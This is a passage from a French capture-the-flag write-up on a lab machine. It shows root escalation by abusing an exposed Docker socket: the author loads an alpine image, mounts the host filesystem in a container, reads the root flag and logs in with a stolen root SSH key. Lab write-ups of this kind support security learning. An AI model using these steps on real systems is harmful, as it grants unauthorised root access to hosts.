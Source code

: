 La clé fonctionne pour ce guest et on trouve dans le dossier de *root* le binaire *docker*.  

Toutefois, la configuration par défaut ne semble pas fonctionner car le socket a été placé à un autre endroit. On peut corriger cela par une simple option.  

```plain
root@a97495c67b7e:~/docker# ./docker images ls
Cannot connect to the Docker daemon at unix:///var/run/docker.sock. Is the docker daemon running?

root@a97495c67b7e:~/docker# find / -name docker.sock
/tmp/docker.sock

root@a97495c67b7e:~/docker# ./docker -H unix:///tmp/docker.sock images ls -a
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
```

Le ménage a été fait dans les images présentes. Si on veut utiliser la technique classique de création d'un container avec le montage du système de fichier hôte il faut d'abord créer puis rappatrier une image.  

```bash
$ docker pull alpine:latest
latest: Pulling from library/alpine
Digest: sha256:21a3deaa0d32a8057914f36584b5288d2e5ecc984380bc0118285c70fa8c9300
Status: Image is up to date for alpine:latest
docker.io/library/alpine:latest
$ docker save alpine > alpine.tar
```

J'envoie l'archive vers le premier hôte via sftp sur le tunnel *ReverseSSH* puis de là le copie avec scp sur le second Docker.  

```plain
root@a97495c67b7e:~/docker# ./docker -H unix:///tmp/docker.sock load -i /tmp/alpine.tar 
8d3ac3489996: Loading layer [==================================================>]  5.866MB/5.866MB
Loaded image: alpine:latest

root@a97495c67b7e:~/docker# ./docker -H unix:///tmp/docker.sock run -v /:/mnt/fs -it alpine:latest /bin/sh
/ # cd /mnt/fs
/mnt/fs # cd root
/mnt/fs/root # ls
root.txt
/mnt/fs/root # cat root.txt 
676d6015094f9ec56284538b48537902
```

On peut aussi récupérer la clé privée de l'utilisateur *root* et enfin avoir une connexion sur l'hôte.  

```plain
$ ssh -i real_amaze.key root@192.168.56.14
Linux aMaze 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan 28 22:58:37 2020 from 192.168.0.104
root@aMaze:~#
```
